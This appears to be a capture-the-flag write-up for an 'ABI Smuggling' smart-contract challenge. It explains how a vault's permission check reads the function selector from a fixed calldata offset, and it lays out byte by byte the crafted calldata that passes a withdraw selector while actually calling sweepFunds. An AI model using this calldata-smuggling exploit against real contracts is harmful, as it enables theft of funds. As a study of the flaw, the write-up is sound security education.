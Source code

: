 ## ABI Smuggling solution

In this last challenge we have a vault that has 1 million tokens inside. There are `withdraw` and `sweepFunds` functions with onlyThis modifier
```
modifier onlyThis() {
        if (msg.sender != address(this)) {
            revert CallerNotAllowed();
        }
        _;
    }
```
and also an `execute` function through which it is possible to execute the abovementioned functions provided that the executor is authorized to do so.
From the start of the level the player is only authorized to call withdraw function (there is a waiting period for withdrawals). Our goal is to recover 1 million dvt tokens to recovery address. For that the `sweepFunds` function might work, but we don't have access to it.

So let's see how `execute` function assumes whether or not somebody has a permission. It takes two arguments - a target address and a calldata for that address. Then it fetches a selector of function to call from the provided calldata and checks if there is any `functionId` on a provided target for that selector and this msg.sender
```
// Read the 4-bytes selector at the beginning of `actionData`
        bytes4 selector;
        uint256 calldataOffset = 4 + 32 * 3; // calldata position where `actionData` begins
        assembly {
            selector := calldataload(calldataOffset)
        }

        if (!permissions[getActionId(selector, msg.sender, target)]) {
            revert NotAllowed();
        }
```
As we can see, the selector in question assumed to be at a certain calldata position which we can manipulate. So we need to understand how calldata is encoded.
1. We take the 4 bytes of the function selector (4 bytes of a hacs of a function signature)
2. Then we encode arguments' heads. For static types these are the values, for dynamic types we use an offset to the start of their data area, measured from the start of the calldata, excluding first 4 bytes (the selector).
3. The data part for dynamic argument consists of number of elements and the corresponding values for that elements.

With that in mind, let's look at the raw calldata of the `execute` function with vault's address as first parameter and a call to `sweepFunds` as second:

0x1cff79cd000000000000000000000000f62849f9a0b5bf2913b396098f7c7019b51a820a0000000000000000000000000000000000000000000000000000000000000040000000000000000000000000000000000000000000000000000000000000004485fb709d0000000000000000000000008ce502537d13f249834eaa02dde4781ebfe0d40f0000000000000000000000002e234dae75c793f67a35089c9d99245e1c58470b00000000000000000000000000000000000000000000000000000000

Let's break it down:
* 0x1cff79cd : selector of the `execute` function
* 000000000000000000000000f62849f9a0b5bf2913b396098f7c7019b51a820a : vault address, first parameter (first 32 bytes)
* 0000000000000000000000000000000000000000000000000000000000000040 : calldata offset for second parameter (second 32 bytes)
// Dynamic type data area starts here
* 0000000000000000000000000000000000000000000000000000000000000044 : calldata length for second parameter (third 32 bytes)
* 85fb709d0000000000000000000000008ce502537d13f249834eaa02dde4781ebfe0d40f0000000000000000000000002e234dae75c793f67a35089c9d99245e1c58470b00000000000000000000000000000000000000000000000000000000 : selector of sweepFunds + actual data (recovery address and token address)

```
uint256 calldataOffset = 4 + 32 * 3; // calldata position where `actionData` begins   
```
As we can see from the above, the selector is taken from the 100-th byte of the calldata. That means we can put the selector of the `withdraw` function at this position to pass the check, while actually executing the `sweepFunds` function, if we calculate the offset correctly.

So here is calldata we must pass on calling the vault:

* 0x1cff79cd : selector of the `execute` function
* 000000000000000000000000f62849f9a0b5bf2913b396098f7c7019b51a820a : vault address, first parameter
* 0000000000000000000000000000000000000000000000000000000000000080 : offset to `sweepFunds`
* 0000000000000000000000000000000000000000000000000000000000000000 : appended zero bytes
* d9caed1200000000000000000000000000000000000000000000000000000000 : selector of withdraw (100th bytes)
* 0000000000000000000000000000000000000000000000000000000000000044 : length of the calldata we passed on calling `execute`
* 85fb709d0000000000000000000000008ce502537d13f249834eaa02dde4781ebfe0d40f0000000000000000000000002e234dae75c793f67a35089c9d99245e1c58470b : `sweepFunds` selector with parameters

All that means that implementation allows a malicious user with withdrawal privilege to call any function of the contract in question, even though he is not supposed to do so.